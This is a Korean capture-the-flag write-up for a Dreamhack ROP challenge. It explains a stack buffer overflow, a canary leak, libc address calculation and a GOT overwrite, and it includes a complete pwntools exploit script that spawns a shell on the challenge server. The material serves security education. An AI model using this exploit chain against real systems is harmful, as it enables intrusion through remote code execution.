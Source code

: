 rop 라이트업
===============


### Return Oriented Programming

rop은 리턴 가젯을 사용하여 복잡한 실행 흐름을 구현하는 기법이다. 공격자는 이를 이용해서 문제 상황에 맞춰 return to library, return to dl-resolbe, GOT overwrite 등의 페이로드를 구성할 수 있다.


### 코드 분석 

```c
#include <stdio.h>
#include <unistd.h>

int main() {
  char buf[0x30];

  setvbuf(stdin, 0, _IONBF, 0);
  setvbuf(stdout, 0, _IONBF, 0);

  // Leak canary
  puts("[1] Leak Canary");
  write(1, "Buf: ", 5);
  read(0, buf, 0x100);
  printf("Buf: %s\n", buf);

  // Do ROP
  puts("[2] Input ROP payload");
  write(1, "Buf: ", 5);
  read(0, buf, 0x100);

  return 0;
}
```

취약점은 return to library 문제와 동일하다.   

그러나 바이너리에서 system 함수를 호출하지 않아서 PLT에 등록되지 않으며 /bin/sh 문자열도 데디터 섹션에 기록하지 않는다. 따라서 system 함수를 익스플로잇에 사용하려면 함수의 주소를 직접 구해야 하고 /bin/sh 문자열을 사용할 다른 방법을 찾아내야 한다.


## 익스플로잇

### system 함수의 주소 계산


* `system` 함수는 `libc.so.6` 라이브러리에 정의되어 있다. `read`, `puts`, `printf`와 같은 함수들도 포함하고 있으며 바이너리 실행 시 전체가 프로세스 메모리에 매핑된다.
* 바이너리가 `system` 함수를 직접 호출하지 않기 때문에 `system` 함수는 GOT에 등록되지 않는다. 하지만 `read`, `puts`, `printf`는 GOT에 등록되어 있다.
* **`system` 주소 계산 방법**: main 함수에서 이 GOT에 등록된 함수들(read, puts, printf)을 호출한 이후 이들의 GOT 주소를 읽을 수 있다. `libc.so.6`가 매핑된 영역의 임의의 주소를 알 수 있다면 같은 `libc` 버전 내에서 다른 데이터와 함수의 옵셋(거리)은 항상 같으므로, `read` 함수와 `system` 함수의 주소 차이를 이용하여 `system` 함수의 주소를 계산할 수 있다.
* **공격 전략**: `read`, `puts`, `printf`가 GOT에 등록되어 있으므로 이 중 하나의 함수의 GOT 주소를 읽은 후 그 주소와 `system` 함수 사이의 거리를 이용하여 `system` 함수의 주소를 구할 수 있다.


### "/bin/sh"

* 바이너리에는 `/bin/sh` 문자열이 직접 포함되어 있지 않다. 따라서 문자열을 임의의 버퍼에 직접 주입하거나 다른 파일에 포함된 것을 사용해야 한다.
* **`libc.so.6`에 포함된 `/bin/sh`**: 일반적으로 `libc.so.6` 라이브러리에는 `/bin/sh` 문자열이 포함되어 있다.
* **`/bin/sh` 주소 계산 방법**: `system` 함수의 주소를 계산하는 것과 유사하게, `libc` 영역의 임의의 주소를 구한 후 그 주소를 기준으로 오프셋을 더하거나 빼서 `/bin/sh` 문자열의 주소를 계산할 수 있다.
* **대체 전략**: 이 방법을 통해 주소를 알아내기 어렵거나 사용할 수 없는 상황에서는 주소를 알고 있는 버퍼에 직접 `/bin/sh`를 입력하는 것이 차선책이 될 수 있다.
* **`gdb`를 이용한 `/bin/sh` 주소 찾기**: pwndbg의 `search /bin/sh` 명령어를 사용하여 `libc.so.6` 내의 `/bin/sh` 문자열 주소를 찾을 수 있다. 


### GOT Overwrite

* `system` 함수와 `/bin/sh` 문자열의 주소를 알고 있으면 `pop rdi; ret` 가젯을 활용하여 `system("/bin/sh")`를 호출할 수 있다.
* **`ret2main` 패턴**: 그러나 `system` 함수를 호출한 후에는 다시 `main` 함수로 돌아와서 버퍼 오버플로우를 일으켜야 한다. 이러한 공격 패턴을 `ret2main`이라고 부른다.


### 가젯 주소 구하

<img width="927" height="157" alt="image" src="https://github.com/user-attachments/assets/fa20a022-0670-4969-a688-ac2622c31ee2" />


```python
from pwn import *

context(arch='amd64', os='linux')

p = remote('host8.dreamhack.games', 23016)
e = ELF('./rop')
libc = ELF('./libc.so.6')

read_plt = e.plt['read']
read_got = e.got['read']
write_plt = e.plt['write']
write_got = e.got['write']

pop_rdi = 0x400853
pop_rsi_r15 = 0x400851
ret = 0x400596

buf1 = b'A' * 0x39
p.sendafter('Buf: ', buf1)

p.recvuntil(buf1)
canary = u64(b'\x00' + p.recvn(7))
log.info(f'canary : {hex(canary)}')

payload = b'A' * 0x38
payload += p64(canary)
payload += b'A' * 0x8

payload += p64(pop_rdi)
payload += p64(1)
payload += p64(pop_rsi_r15)
payload += p64(read_got)
payload += p64(0)
payload += p64(write_plt)

payload += p64(pop_rdi)
payload += p64(0)
payload += p64(pop_rsi_r15)
payload += p64(read_got)
payload += p64(0)
payload += p64(read_plt)

payload += p64(pop_rdi)
payload += p64(read_got + 0x8)
payload += p64(ret)
payload += p64(read_plt)

p.sendafter('Buf: ', payload)

read_addr = u64(p.recvn(8))
libc_base = read_addr - libc.symbols['read']
log.info(f'read : {hex(read_addr)}')

system = libc_base + libc.symbols['system']
log.info(f'system : {hex(system)}')

p.send(p64(system) + b'/bin/sh\x00')

p.interactive()
```

